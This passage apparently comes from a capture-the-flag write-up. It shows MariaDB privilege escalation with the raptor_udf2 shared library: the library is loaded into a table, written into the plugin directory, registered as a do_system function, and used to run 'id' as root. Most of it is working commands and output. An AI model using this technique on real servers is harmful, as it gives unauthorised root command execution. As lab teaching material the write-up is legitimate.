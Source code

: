 I’ll create a `foo` table and read the binary into it:

```

MariaDB [mysql]> create table foo(line blob);
Query OK, 0 rows affected (0.007 sec)

MariaDB [mysql]> insert into foo values(load_file('/dev/shm/raptor_udf2.so'));
Query OK, 1 row affected (0.002 sec)

```

Next I need to know the plugins directory:

```

MariaDB [mysql]> show variables like '%plugin%';
+-----------------+---------------------------------------------+
| Variable_name   | Value                                       |
+-----------------+---------------------------------------------+
| plugin_dir      | /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
| plugin_maturity | gamma                                       |
+-----------------+---------------------------------------------+
2 rows in set (0.001 sec)

```

I’ll write that binary out into the plugins directory above, and load it as a user defined function:

```

MariaDB [mysql]> select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so'; 
Query OK, 1 row affected (0.000 sec)
MariaDB [mysql]> create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected (0.001 sec)

```

To test it, I’ll use the function to run `id` and write the result into a file. I’ll make sure to change the perms on the file so I can read it:

```

MariaDB [mysql]> select do_system('id > /dev/shm/0xdf; chmod 777 /dev/shm/0xdf');
+----------------------------------------------------------+
| do_system('id > /dev/shm/0xdf; chmod 777 /dev/shm/0xdf') |
+----------------------------------------------------------+
|                                                        0 |
+----------------------------------------------------------+
1 row in set (0.005 sec)

```

The output in `mysql` isn’t useful, but the file is there, and it was run by root:
